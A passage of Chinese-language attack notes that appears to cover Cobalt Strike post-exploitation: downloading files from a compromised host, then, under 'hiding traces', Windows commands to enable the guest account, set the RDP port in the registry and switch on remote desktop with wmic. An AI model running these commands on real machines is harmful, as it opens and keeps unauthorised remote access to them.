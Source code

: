    

   

   + 下载文件

     文件下载完成后回存放在cs文件夹下的download文件夹下并且重命名过

     `download filePaht/fileName`

   

   

   

+ 隐藏痕迹

  + 启用guest账户

    `net user guest /active:yes`

    <img src="images/image-20201118144214450.png" alt="image-20201118144214450" style="zoom:50%;" />

  

  + 开启远程端口

    `reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f`

    <img src="images/image-20201118144758798.png" alt="image-20201118144758798" style="zoom:50%;" />

  

  

  + 开启远程桌面

    `wmic RDTOGGLE WHERE ServerName='00h31a7k2030c25' call SetAllowTSConnections 1`

    <img src="images/image-20201118150459154.png" alt="image-20201118150459154" style="zoom:50%;" />
